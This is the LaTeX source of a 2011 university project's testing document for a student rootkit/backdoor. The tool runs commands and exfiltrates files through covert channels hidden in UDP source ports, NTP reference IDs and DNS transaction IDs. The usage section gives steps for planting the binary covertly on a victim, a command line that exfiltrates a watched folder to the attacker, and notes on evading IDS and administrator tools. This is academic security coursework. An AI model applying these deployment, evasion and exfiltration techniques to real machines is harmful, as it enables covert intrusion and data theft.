\documentclass[titlepage]{article}
\usepackage{array}
\usepackage{enumerate}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{tabularx}

\begin{document}

\author{Stevan Stanisic and Santana Mach}
\title{COMP 8505 - Final Project \\ Rootkit \\ Testing Documents}
\date{Dec 05, 2011}
\maketitle{}

\tableofcontents
\pagebreak

\section{Introduction}

Placeholder.

\section{Usage Instructions}

Installation is not required, the functionality of the program is controlled by command-line switches, simply copy the binary to a surreptitious location on the target machine and either launch it manually or add it to a startup script.

To compile the program from source, the libpcap and openssl development libraries will be required.  Building the program from source should be possible with any version of GCC that supports at least the gnu99 C standard using the provided makefile.  Note, the makefile will also set the setuid bit on the resulting executable as the program requires elevated priveleges to open raw sockets.

The available command-line flags are:
-c : Use this option to activate Client mode. This should be used on the attacker's machine.
-s : Use this option to activate Server mode. This should be used on the victim machine.
-h : Use this option to see a short version of the program usage instructions.
-i <arg> : Use this option to specify the remote host that the machine will be communicating with. For the Client, this will be the server's IP. For the Server, this will be the Client's IP.
-w <arg> : Use this option to specify the folder to watch for exfiltration. Any files created or modified in this folder will be sent to the client.
-x <arg> : Use this option to specify the covert channel to use. 'u' for UDP source port, 'n' for NTP ref\_id, 'd' for DNS transaction id.

If you wish to change the watch folder, the easiest way to do this remotely is to use the ps utility to find your covert process on the victim machine and then execute 'kill <process id>; ./bkdoor -s -w <path> -i <ip> ... other options'.

\clearpage

\section{Testing Design}

The majority of the testing will be carried out from the server (victim) side as this is where monitoring.
The signature for our rootkit is currently ``0xAB" with the data encrypted in the next byte.  The signature
can also be configured at compile time, which will be harder for analysts and IDS to detect.
\\

\begin{tabularx}{\textwidth}{|c|X|X|X|c|}
\hline
\textbf{\#} & \textbf{Description} & \textbf{Tools Used} & \textbf{Expected Result} & \textbf{Pass}\\
\hline
1 & Validate IP \& UDP checksums & bkdoor\newline Wireshark & Checksums are correct in Wireshark & Yes\\
\hline
2 & Backdoor channel via UDP source port. & bkdoor\newline Wireshark & Signature \& \newline encrypted data in the source port. & Yes\\
\hline
3 & Backdoor channel via NTP Ref ID. & bkdoor\newline Wireshark & Signature \& \newline encrypted data in the reference clock id. & Yes\\
\hline
4 & Backdoor channel via DNS ID. & bkdoor\newline Wireshark & Signature \& \newline encrypted data in the transaction id. & Yes\\
\hline
5 & Basic commands & bkdoor & Receive output of commands from server & Yes\\
\hline
6 & Exfiltrate file. & bkdoor\newline echo & File is exfiltrated from the server. & Yes\\
\hline
7 & Changing watch\newline directory. & bkdoor & Execute new server with new watching directory & Yes\\
\hline
\end{tabularx}

\clearpage

\section{Testing Data}

\subsection{Test \# 1 - Checksums}

\begin{figure}[htb]                                                                       
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{Pictures/Checksum.png}
  \end{center}
  \caption{IP and UDP Checksums}
  \label{fig:checksums}
\end{figure}

A key to crafting a raw packet is to ensure that there are no warnings to reveal itself.
A good checksum is important for prevent the packet from being dropped or spotted by the IDS.
As shown above, both the IP and UDP checksums are correct.\\

\subsection{Test \# 2 - UDP Channel}

\begin{figure}[htb]                                                                       
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{Pictures/UDP_SIG.png}
  \end{center}
  \caption{UDP Channel Signature}
  \label{fig:udp_sig}
\end{figure}

For the UDP channel, the signature and data are hidden in the source port.  The signature ``AB"
can be seen on the first byte with the data encrypted into the second byte.  This results in
a high source port, which is not unusual.

\clearpage

\subsection{Test \# 3 - NTP Channel}

\begin{figure}[htb]                                                                       
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{Pictures/NTP_SIG.png}
  \end{center}
  \caption{NTP Channel Signature}
  \label{fig:ntp_sig}
\end{figure}

The signature and data for the NTP channel is slipped into the Reference Clock ID in the NTP header.
This would be the first two bytes of the ID field.  

\subsection{Test \# 4 - DNS Channel}

\begin{figure}[htb]                                                                       
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{Pictures/DNS_SIG.png}
  \end{center}
  \caption{DNS Channel Signature}
  \label{fig:dns_sig}
\end{figure}

The field used for the DNS channel is the Transaction ID in the DNS Header.  Similar to the other channels,
the ``AB" signature is placed in the first byte of the field specified.  The transaction id is used to 
match request and reply packets; however, it is not likely monitored.\\

\clearpage

\subsection{Test \# 5 - Basic Commands}

\begin{figure}[htb]                                                                       
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{Pictures/Commands.png}
  \end{center}
  \caption{Output of Commands}
  \label{fig:commands}
\end{figure}

These are some of the common commands that are used in a Unix system.  This also demonstrates that
the commands work for all three types of backdoor channel.

\clearpage

\subsection{Test \# 6 - Exfiltration}

\begin{figure}[htb]                                                                       
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{Pictures/Exfiltration.png}
    
\includegraphics[width=0.9\textwidth]{Pictures/CExfiltration.png}
  \end{center}
  \caption{File Exfiltration}
  \label{fig:exfiltration}
\end{figure}

\clearpage

\subsection{Test \# 7 - Changing Watch Directory}

\begin{figure}[htb]                                                                       
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{Pictures/Watch.png}
  \end{center}
  \caption{Example of Watch Directory}
  \label{fig:watch}
\end{figure}

\clearpage

\section{Covert Channel Implementation and Defense}

The first thing we should cover is how well we were able to follow the course set out by our design document.  We were able to implement the Transmission level, Frame level and Packet level mechanisms quite easily.  We decided to increase the length of the Signature at the Packet level to 1B and drop the Offset field as our packets go out too slowly to encounter re-ordering.  The Frame level logic made enabling full 64bit DES encryption/decryption quite easy.  We do also include the password check at the Transmission level and MD5 hash for data verification, however, we did not have time to add a reliability layer so it is of limited value. We would not recommend use of this Proof of Concept tool on a highly congested network.

Using libpcap on the Server(victim) was very useful as we didn't have to worry about firewall settings or giving ourselves away to common administrator tools such as netstat or ps (masked executable).  We chose to use a Raw Socket to read packets on the Client (attacker) as it made the program loop a little bit more straightforward and the additional features available through the libpcap library weren't necessary on the client's side.

Regarding covert channel types, we implemented our UDP header and NTP payload covert channel without much in the way of problems.  We decided not to pursue an ICMP based covert channel for two reasons. One, aside from echo requests/responses and destination unreachable messages we don't see much ICMP traffic flowing through most networks. Two, selecting a second application layer-level protocol made sense from a workload perspective as it provided a necessary cover as well as reducing coding effort as we would not have to craft another kind of transport layer packet.  For these reasons we chose to use the DNS payload based for our final covert channel.

\section{Conclusion}

Placeholder.

\end{document}
